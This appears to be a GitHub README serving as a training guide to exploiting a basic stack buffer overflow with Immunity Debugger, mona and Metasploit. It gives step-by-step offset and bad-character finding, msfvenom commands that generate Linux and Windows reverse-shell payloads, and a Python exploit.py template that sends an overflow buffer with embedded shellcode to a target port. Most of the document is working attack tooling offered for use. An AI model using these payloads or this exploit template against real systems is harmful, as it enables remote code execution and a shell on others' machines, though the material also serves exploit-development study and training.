 # Very basic version (no ASLR no DEP)

<br>

__Immunity Debugger__ :  https://debugger.immunityinc.com/ID_register.py
<br>
__Mona__ : https://github.com/corelan/mona/archive/refs/heads/master.zip
<br>
<sub>mona directory has to be with all the the other python scripts</sub>
<br>
<br>
<br>
<br>
__Order to proceed__ :
<br>
```
INTRO - in Immunity : !mona config -set workingfolder c:\<choose>\%p

1 - Find how many bytes to crash the app
2 - Generate cycle chars => /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <bytes2crash> 
                      or => msf-pattern_create -l <bytes2crash>
3 - Find EIP address
4 - Find offset => /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q <EIP_address> -l <bytes2crash>
5 - Modify exploit.py
6 - Test previous result with "BBBB" to check if EIP take the good ASCII value (42424242 = BBBB)
7 - Generate badchars (CF badchars.py)
8 - Generate same but in Immunity : !mona bytarray -cpb "\x00"
9 - Copy the output of step 7 in exploit.py and send
10 - Immunity : !mona compare -f c:\<your_folder>\<your_app_name>\bytearray.bin -a <ESP_address>
11 - Remove badchars (1 by 1) resend & recheck until "unmodified" : !mona bytearray -cpb "\x00\x..\x.." and so on
12 - Once everything if ok, find esp jmp address : !mona jmp -r esp
     and write it in exploit.py (Little Endian)
```
![image](https://user-images.githubusercontent.com/97956863/201435014-512d7c22-d8c3-40d1-bef8-fb77a5bfaba7.png)

```
13 - Craft payload :
          msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=4444 EXITFUNC=thread -b "\x00\x...." -f py
                           /x64/
          msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=4444 EXITFUNC=thread -e x86/shikata_ga_nai -b "\x00\x...." -f py          
14 - Copy output to exploit.py
15 - Send & Enjoy
```


## mona short CheatSheet

```
!mona config -set workingfolder c:\<folder>\%p
!mona bytearray -cpb "\x00"
!mona compare -f c:\<folder>\<app_name>\bytearray.bin
!mona jmp -r esp 
```

## msfvenom short CheatSheet

```
cycl    : /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <bytes2crash> | or | msf-pattern_create -l <bytes2crash>
offset  : /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q <EIP_address> -l <bytes2crash>
payload : msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=4444 EXITFUNC=thread -b "\x00\x...." -f py
                           /x64/
          msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=4444 EXITFUNC=thread -e x86/shikata_ga_nai -b "\x00\x...." -f py 
```
<br>
<br>

## exploit.py

```
#!/usr/bin/env python2

import socket, sys

ip = sys.argv[1]

port = 9999

offset = ""
esp = "" #little endian here
nop = "\x90" * 20

buf =  b"" #crafted payload here 
buf += b"\xdb\xcd\xd9\x74\x24\xf4\xbb\x67\x65\x06\x7c\x5d"
buf += b"\x33\xc9\xb1\x12\x31\x5d\x17\x03\x5d\x17\x83\x8a"
buf += b"\x99\xe4\x89\x65\xb9\x1e\x92\xd6\x7e\xb2\x3f\xda"
buf += b"\x09\xd5\x70\xbc\xc4\x96\xe2\x19\x67\xa9\xc9\x19"
buf += b"\xce\xaf\x28\x71\xdb\x44\xcc\xe3\xb3\x58\xd2\xf2"
buf += b"\x1f\xd4\x33\x44\xf9\xb6\xe2\xf7\xb5\x34\x8c\x16"
buf += b"\x74\xba\xdc\xb0\xe9\x94\x93\x28\x9e\xc5\x7c\xca"
buf += b"\x37\x93\x60\x58\x9b\x2a\x87\xec\x10\xe0\xc8"

msg = "A" * offset
msg += esp
msg += nop
msg += buf


s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try :

        s.connect((ip, port))
        print "[+] Connected.\nSending buffer...."
        s.send(bytes(msg + "\r\n"))
        print "Done."

except Exception as e :
        print e

```

## badchars.py

```
for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')
print()
```
